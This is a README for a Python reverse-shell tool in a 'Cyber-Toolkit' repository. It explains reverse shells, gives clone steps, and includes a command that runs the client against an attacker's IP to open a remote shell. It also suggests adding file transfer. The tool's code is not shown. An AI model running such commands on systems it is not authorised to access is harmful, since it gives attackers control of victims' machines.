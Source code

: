 # Reverse Shell for Windows, Linux and Mac OS
The reverse shell's goal is to connect to a remote computer and redirect the input and output connections of the target system’s shell so the attacker can access it remotely. Reverse shells allow attackers to open ports to the target machines, forcing communication and enabling a complete takeover of the target machine. Therefore it is a severe security threat.

&nbsp;
## What is this project about?
Implementing a reverse shell in Python using socket programming that can execute remote shell commands and send the results back to the server.

&nbsp;
## How to run this project?
**Step 1:** 
This project requires Python3 to run. You can download it from [HERE](https://www.python.org/downloads/).

**Step 2:**
Clone this repository:
    
    git clone https://github.com/NikunjKunduru/Cyber-Toolkit.git

**Step 3:**
Go to the cloned directory and run the following commands:
    
    cd Cyber-Toolkit/Reverse_Shell
    
    Attacker's shell:
        python3 server.py

    Target's shell:
        python3 client.py <Attacker's IP address>

&nbsp;
## Check-out
Add [download and upload](https://www.thepythoncode.com/article/send-receive-files-using-sockets-python) commands to download and upload files from/to the client. And many more! There are endless possibilities. The only limit here is your imagination!

&nbsp;
## DISCLAIMER 
Note that use this code only on a computer you have permission to. Use it at your own risk!

<br />

🤖**References:** https://www.thepythoncode.com
